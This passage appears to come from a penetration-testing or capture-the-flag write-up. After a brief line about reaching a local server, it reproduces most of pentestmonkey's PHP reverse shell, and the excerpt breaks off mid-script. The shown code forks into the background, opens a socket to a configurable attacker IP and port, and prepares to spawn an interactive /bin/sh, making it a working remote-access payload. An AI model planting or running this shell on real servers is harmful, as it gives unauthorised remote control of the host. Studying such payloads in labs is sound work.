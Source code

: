 we successfully did a request to our local server, from there it's going to be a smooth ride ->

download a reverse shell from pentestmonkey:

```
<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
```